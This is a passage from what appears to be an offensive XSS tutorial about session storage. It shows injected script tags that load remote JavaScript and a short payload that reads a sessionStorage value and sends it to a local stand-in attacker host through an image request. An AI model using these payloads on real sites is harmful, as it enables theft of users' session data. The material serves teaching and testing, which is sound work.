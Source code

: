 ![](/img/OffensiveXSS1/capturedLocalStorage.PNG)


Now we are able to set and get local storage items with JavaScript.

<h2>Session storage</h2>

Similar to local storage this page does not have anything set in the session storage so we need to set it:
```
<script src=http://127.0.0.1/setSessionStorageItem.js></script>
```
<br>
setSessionStorageItem:
```
sessionStorage.setItem('test', 'test');
```
<br>
Injection:
```
<script src=http://127.0.0.1/getSessionStorageItem.js></script>
```
<br>
getSessionStorageItem.js:
```
var data = window.sessionStorage.getItem('test');
var i=new Image;
i.src="http://127.0.0.1/?"+data;
```
<br>